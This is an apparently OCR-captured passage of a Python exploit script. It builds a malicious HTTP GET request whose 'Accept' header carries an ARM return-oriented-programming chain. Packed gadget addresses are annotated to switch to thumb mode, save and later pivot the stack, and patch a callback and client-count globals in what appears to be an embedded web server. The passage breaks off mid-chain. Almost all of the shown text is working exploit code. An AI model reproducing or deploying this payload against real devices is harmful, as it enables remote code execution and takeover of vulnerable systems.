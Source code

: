 ```
-python
# Construct the raw HTTP GET request
request = method + b" /index.html HTTP/1.1\r\n"
request += b"Accept-Aa0Aa"
request += p32(0xc02b4edc) # pc

# 0xc02b4edc | ldmia sp!,{r4,r5,r6,r7,r11,pc} <- pop stuff off of the stack so we actually get a decent bit of control
request += p32(0xc05af011) # r4
request += p32(0xc006b11c) # r5 <- change this to insert more gadgets
request += p32(0xc04a28e0) # r6
request += p32(0xc09ae8d4 - 0xdc) # r7 - where we write the stack pointer we destroy
request += p32(0xdeadbeef) # r11
request += p32(0xc0486988) # pc

# | 0xc0486988 | c0486988 | blx r4 | c0486988 | blx r4  | <- go to thumb mode for the next gadget
# | 0xc05af011 | c05af010 | add r0,sp,#0x20 | c05af012 | blx r6 |  <- move sp + 0x20 to r0 so we can save it for later
# | 0xc04a28e0 | c04a28e0 | str r0,[r7,#0xdc] | c04a28e8 | blx r5 | <- save the r0 value into writable location

## need to fix up the callback we've modified, so just add 4 to it (this can probs be improved need better gadgets)
# 0xc006b11c | ldmia sp!,{r4,pc}
request += p32(0xc0218bd8) # r4
request += p32(0xc0341af4) # pc

# | 0xc0341af4 | c0341af4 | cpy r0,r4 | c0341af8  | ldmia sp!,{r4,r11,pc} | 
request += p32(0xc05460e0) # r4
request += p32(0xc09afebc + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4 | blx r4 | 

## need to fix up the client count thing (0xc09b10ec to 0, 0xC09B1184 to 0, 0xC09B121C to 0, C09B12B4 to 0)
# | 0xc05460e0 | c05460e0 | mov r0,#0x0 | c05460e4 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B1184 - 0xc) # r5
request += p32(0xc09b10ec + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 |

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B12B4 - 0xc) # r5
request += p32(0xC09B121C + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 | 

## Now we need to stack pivot

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc09ae8d4) # r4 <- address of our stored stack pointer
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
request += p32(0xc01fefbc) # pc

# | 0xc01fefbc | c01fefbc | ldr r0,[r4,#0x0] | c01fefc0 | ldmia sp!,{r4,r5,r6,r7,r11,pc} | 
request += p32(0xdeadbeef) # r4
request += p32(0xc08e6de0 - 0x30) # r5 <- pointer to amount to sub from loaded stack pointer
```